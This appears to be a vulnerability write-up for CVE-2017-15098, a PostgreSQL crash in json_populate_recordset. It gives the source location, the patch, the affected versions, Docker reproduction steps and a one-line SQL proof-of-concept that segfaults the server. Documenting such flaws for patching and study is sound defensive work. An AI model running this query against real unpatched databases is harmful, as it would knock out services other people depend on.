



# CVE-2017-15098 CWE-200 PostgreSQL DoS

## Vulnerability Background
- **PostgreSQL**:P ostgreSQL is an open-source, powerful object-relational database management system widely used in web development, data analysis, and enterprise-level applications. It supports ACID transactions, complex queries, full-text searches, and Multi-Version Concurrency Control (MVCC), ensuring high concurrency and data consistency. PostgreSQL offers extensibility, allowing users to customize data types, functions, and indexes, and also supports JSON and geospatial data.
- **Composite Type:** A user-defined data structure in PostgreSQL databases, composed of multiple different types of fields, similar to a struct. Composite types can be used for table row types, function return values, variable declarations, and other scenarios, allowing a single piece of data to contain multiple related fields, facilitating data organization and management.

## Vulnerability Mechanism
When converting JSON to composite type, PostgreSQL failed to rigorously check for missing fields, type inconsistencies, and domain constraints, resulting in uninitialized or illegal memory access in the function call path, ultimately causing server crashes or information leaks.

## Vulnerability Location
Analysis of PostgreSQL 9.4.0 source code:

At line 2013 of the src \backend \utils \adt \jsonfuncs.c file, the `populate_record_worker` function is used to parse and "fill" data in JSON or JSONB format into PostgreSQL's "compound type" (record/ composite type) variable.

The **2070** line calls the `lookup_rowtype_tupdesc` function, but this function can only handle ordinary composites, i.e., composite types directly defined by tables/types and cannot properly handle domains of compound types. When calling functions like `json_populate_record` or `json_populate_recordset` and the input parameter type is a domain of a composite type, `lookup_rowtype_tupdesc` cannot correctly recursively unpackage to the real underlying composite type, leading to structural misalignment and out-of-bounds access, ultimately causing the server to crash.

```cpp
static Datum populate_record_worker(FunctionCallInfo fcinfo, const char *funcname,
					   bool have_record_arg)
{
	// ...

	Assert(jtype == JSONOID || jtype == JSONBOID);

	if (have_record_arg)
	{
		// ....
		// 2070 lines
		tupdesc = lookup_rowtype_tupdesc(tupType, tupTypmod);
	}
    
    // ...
}
```

## Remediation

Upgrade to PostgreSQL 10.1, 9.6.6, 9.5.10, 9.4.15, 9.3.20, or a later release on the corresponding branch.
Change the way type descriptors are obtained to `lookup_rowtype_tupdesc_domain` that can safely recursively unpackage 

```cpp
// Type descriptor acquisition is changed to a safe method
tupdesc = lookup_rowtype_tupdesc_domain(tupType, tupTypmod, false); // New realization

// Domain checks are added after tuple pads (to prevent data that does not meet constraints from being returned)
if (argtype != tupdesc->tdtypeid)
    domain_check(HeapTupleGetDatum(rettuple), false,
        argtype, &my_extra->domain_info, fcinfo->flinfo->fn_mcxt);
```

## Affected Versions
**Affected version:** PostgreSQL:

-  9.3.0 to 9.3.19
-  9.4.0 to 9.4.14
-  9.5.0 to 9.5.9
-  9.6.0 to 9.6.5
-  10.0

## Environment Setup
Start the Docker environment, PostgreSQL version 9.4.0, administrator postgres, password postgres, database test already exists.

```txt
NIST:NVD   Base Score:8.1 HIGH   CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:H
```

```txt
cpe:2.3:a:postgresql:postgresql:9.4:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Use Postgres user identity to connect to the PostgreSQL database test in the container

   ```bash
   docker exec -it postgres-9.4.0 psql -U postgres -d test
   ```

2. Execute the PoC code; after execution, you will see the connection closes and automatically exits

   ```postgresql
   \i CVE-2017-15098-PoC.sql
   ```

   

3. Checking the container logs, you can see that PostgreSQL encountered a segment error (signal 11), which caused it to crash.

   ```bash
   docker logs postgres-9.4.0
   ```

   

## PoC Analysis

```sql
select * from json_populate_recordset(row(1000000000::int,50::int),'[{"b":"2"},{"a":"3"}]') q (a text, b text);
```

The incoming `row(1000000000::int,50::int)` is an anonymous compound type (two columns int), and the output type is `q (a text, b text)`, forcing the return result to be two columns of text. However, the JSON data content `[{"b":"2"},{"a":"3"}]` and the order of composite type definitions and field types all **do not match**.

Internally, when parsing `json_populate_recordset`, PostgreSQL needs to map each element in the JSON array to a single row (record). However, its internal checks for composite type mapping are not strict. When mismatched parameter types and malformed JSONS are passed, PostgreSQL may incorrectly parse in-memory data, ultimately **crashing**.

## References
[NVD - CVE-2017-15098](https://nvd.nist.gov/vuln/detail/CVE-2017-15098)

[Add tests for json{b}_populate_recordset() crash case. · postgres/postgres@b574228](https://github.com/postgres/postgres/commit/b574228715f0fd77ed1f4f084603cff9e757e992#diff-94c0251a8746604d43229f39136eaa5fd53feb420e4133717942724667a571d8)

[Support domains over composite types. · postgres/postgres@37a795a](https://github.com/postgres/postgres/commit/37a795a60b4f4b1def11c615525ec5e0e9449e05#diff-6693138a484326541689ebe4e0350814d2676f0946522ffeb4a87c6aacaaa274)
